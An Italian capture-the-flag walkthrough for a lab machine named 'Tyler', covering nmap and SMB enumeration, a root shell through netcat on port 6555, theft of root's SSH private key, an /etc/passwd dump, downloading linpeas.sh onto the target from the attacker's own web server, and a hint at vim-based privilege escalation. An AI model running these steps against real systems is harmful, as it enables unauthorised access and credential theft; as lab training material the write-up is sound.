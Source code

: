 # Tyler

## ENUM
partiamo con una enumerazione e scan dei serizi


```bash
nmap tyler.thm -sV -sC 
```
ed ecco spuntare a schermo la porta 445

coleghiamoci e vediamo cosa ci offre

## SMB

```bash
smbclient -L \\\\tyler.thm\\
```

guardiamo se collegandoci in anonimo in tutte e tre le directory abbiamo qualche hint
```bash
smbclient \\\\tyler.thm\\public
```

ecco la prima flag il file alert invece nulla di interessante. bene...cambiamo approccio

```bash
nmap tyler.thm -p-
```

ecco un altra porta 6555

## porta 6555

```bash
nc tyler.thm 6555
```
molto bene....abbiamo un accesso come root!!! entriamo nella cartella root ecco davanti a noi un altra flag

ma non abbiamo il file king.txt??

controlliamo meglio dall'ssh

```bash
cd /root/.ssh
cat id_rsa.pub

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+0qTaj8PluXd4pyYNMGPLbP2ZTwh4I8hVCNnkzaL7oXXbZolVtehOCawy+DOgnccIEHUqMgEvOEEs+2u/+UpWxL7t1QSnyLvMrMKAnLXBQDzr2uJx7Ljhli8wv7nIX83EcpzU7M2bViGGpXhxOAQa6Ud7pRVXekh71qZI22I7Zg/NPPSzsMbm0CQrJ9Q+J2kugu/EK4VQsR1COMs+7ssd0gkHQ8PooLHr1+x4Trf+DRb/H02hjl1TaZ589CixlQQNUfHzLjXnnuE7qslcX8c6Oe7sv7e808M87ZokdhrifWZrfwCxaZ54D6xWYdSScYzMKqLh0HQxO3KokicRgTJx tdurden@tyler
```

ecco la soluzione probabilmente il root di tdurden è separato dalla macchina main 

```bash
cd /root/.ssh
cat id_rsa
```
prendiamo l'id_rsa e colleghiamoci in ssh

ricordatevi di dare i giusti permessi all'id_rsa sulla vostra macchina 

quindi 
```bash
chmod 600 id_rsa
```
successivamente 

```bash
ssh tdurden@tyler.thm -i id_rsa
```
facciamo un controllo degli utenti 

```bash
cat /etc/passwd
```
ecco l'output andiamo ad analizzarlo
```bash
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
tdurden:x:1000:1000:Tyler Durden:/home/tdurden:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
narrator:x:1002:1002::/home/narrator:/bin/bash
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
nginx:x:997:994:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
librenms:x:996:993::/opt/librenms:/bin/bash

```

si siamo sulla macchina main facciamo il privesc

## Privesc
andiamo su una cartella dove possiamo caricare file e carichiamo il programma linpeas.sh (scaricatevelo prima!!)

```bash
sulla nostra macchina nella cartella dove è presente linpeas.sh facciamo: python -m http.server 80
sulla macchina tyler invece: wget http://indirizzoipnostro/linpeas.sh
```
ora diamo i permessi di avvio a linpeas.sh
```bash
chmod +x linpeas.sh
```
abbiamo trovato un vulnerabilità nel comando vim (controllate gtfo.bins ed è fatta)
